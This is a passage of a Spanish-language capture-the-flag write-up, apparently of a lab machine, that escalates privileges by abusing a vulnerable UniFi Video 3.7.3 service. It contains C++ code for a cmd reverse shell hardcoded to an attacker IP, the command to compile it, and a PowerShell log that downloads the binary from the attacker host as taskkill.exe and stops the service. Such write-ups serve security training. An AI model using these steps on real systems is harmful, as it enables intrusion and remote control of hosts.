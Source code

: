 ``` text
```

Como podemos ver, la versión 3.7.3 es vulnerable.

Iniciamos por ver como carajos se llama el servicio, esta parte requirió de pasar un rato revisando notas en github, pero finalmente llegue a la opción necesaria:

``` text
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
                               Microsoft-Windows-Unified-Telemetry-Client           :
                               Microsoft-Windows-Unified-Telemetry-Client           :
UniFiVideoService              Type            : 16
                               ImagePath       : C:\ProgramData\unifi-video\avService.exe //RS//UniFiVideoService
                               DisplayName     : Ubiquiti UniFi Video
                               Description     : Ubiquiti UniFi Video Service
    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\UniFiVideoService
[10.10.10.104]: PS C:\programdata\unifi-video>
```

Ya tengo el nombre del servicio, ya verificamos que es vulnerable. Ahora solo falta nuestro ejecutable a lanzar.

# cmd reverse shell

En este caso, como no me convencio usar MSF, busque alternativas y me tope con una [muy interesante](https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/). Se trata del código fuente en cpp, para generar un binario para windows desde linux, que lanza el proceso cmd.exe y realizar una conexión inversa hacia la maquina del atacante.

En el código solo modificamos los parámetros de host y port y compilamos.

La función main queda así:

``` c
int main(int argc, char **argv) {
    FreeConsole();
    if (argc == 3) {
        int port  = atoi(argv[2]); //Converting port in Char datatype to Integer format
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.13.121";
        int port = 3001;
        RunShell(host, port);
    }
    return 0;
}
```

Compilamos:

`i686-w64-mingw32-g++ r.cpp -o r.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService
